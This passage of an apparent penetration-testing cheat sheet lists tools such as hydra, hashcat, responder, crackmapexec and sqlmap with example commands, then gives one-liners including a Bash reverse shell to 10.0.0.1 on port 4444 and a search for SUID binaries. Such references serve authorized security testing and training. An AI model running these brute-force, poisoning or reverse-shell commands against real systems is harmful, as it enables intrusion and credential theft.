 | `tmux` | Terminal multiplexer | `tmux new -s session_name` |

## Pentesting Specific

| Command | Description | Example |
|---------|-------------|---------|
| `searchsploit` | Search for exploits | `searchsploit apache 2.4.49` |
| `msfconsole` | Metasploit Framework console | `msfconsole` |
| `nmap` | Network mapper | `nmap -sV -p- 192.168.1.1` |
| `hydra` | Password cracking | `hydra -l user -P wordlist ssh://192.168.1.1` |
| `john` | Password cracking | `john --wordlist=wordlist.txt hash.txt` |
| `hashcat` | Password cracking | `hashcat -m 0 -a 0 hash.txt wordlist.txt` |
| `responder` | LLMNR/NBT-NS/mDNS poisoner | `responder -I eth0` |
| `crackmapexec` | Swiss army knife for pentesting networks | `crackmapexec smb 192.168.1.0/24` |
| `enum4linux` | Enumerate Windows/Samba hosts | `enum4linux -a 192.168.1.1` |
| `smbclient` | SMB/CIFS client | `smbclient //192.168.1.1/share -U username` |
| `wpscan` | WordPress scanner | `wpscan --url https://wordpress.site` |
| `gobuster` | Directory/file & DNS busting | `gobuster dir -u http://target -w wordlist.txt` |
| `ffuf` | Web fuzzer | `ffuf -u http://target/FUZZ -w wordlist.txt` |
| `sqlmap` | SQL injection | `sqlmap -u "http://target/page.php?id=1" --dbs` |

## Useful One-Liners

### Create a reverse shell with Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

### Create a simple HTTP server
```bash
python3 -m http.server 8000
```

### Generate a random password
```bash
openssl rand -base64 12
```

### Find all SUID binaries
```bash
find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null
```
